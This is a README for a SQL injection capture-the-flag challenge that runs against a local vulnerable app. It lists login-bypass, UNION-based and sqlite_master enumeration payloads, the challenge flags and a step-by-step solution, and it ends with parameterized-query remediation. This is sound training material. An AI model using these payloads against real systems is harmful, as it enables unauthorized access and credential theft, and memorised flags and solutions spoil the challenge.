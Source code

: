 # Challenge 1: Web Application SQL Injection

## Quick Start

1. **Install Dependencies:**
cd challenge-01-web-sqli
pip install -r requirements.txt

text

2. **Run the Application:**

cd source-code
python vulnerable_app.py


3. **Access the Application:**
Open browser to: http://localhost:5000

## Challenge Objectives

### Primary Flags:
- `CTF{basic_sqli_discovered}` - Basic SQL injection
- `CTF{sql_injection_master_2025}` - Admin access via SQL injection

### Techniques to Practice:

#### 1. Basic SQL Injection (Login Form):
- Try: `admin' --`
- Try: `' OR '1'='1' --`
- Try: `' UNION SELECT 1,2,3,4 --`

#### 2. Union-Based SQL Injection:
' AND (SELECT COUNT(*) FROM users) > 0 --

#### 4. Search Function Injection:
- URL: `/search?q=laptop' UNION SELECT username, password, role FROM users --`

## Solution Walkthrough

### Step 1: Basic Authentication Bypass
1. Navigate to login form
2. Username: `admin' --`
3. Password: `anything`
4. This bypasses password check

### Step 2: Extract User Data
1. Use UNION injection: `' UNION SELECT 1, username, role, flag FROM users --`
2. Reveals all user data including flags

### Step 3: Database Enumeration
1. Extract table names: `' UNION SELECT 1, name, 2, 3 FROM sqlite_master WHERE type='table' --`
2. Extract column names: `' UNION SELECT 1, sql, 2, 3 FROM sqlite_master --`

## Remediation

### Secure Code Example:
Use parameterized queries

cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (username, password_hash))

text

### Security Best Practices:
- Input validation and sanitization
- Parameterized queries
- Least privilege database access
- Web Application Firewall (WAF)
- Regular security testing
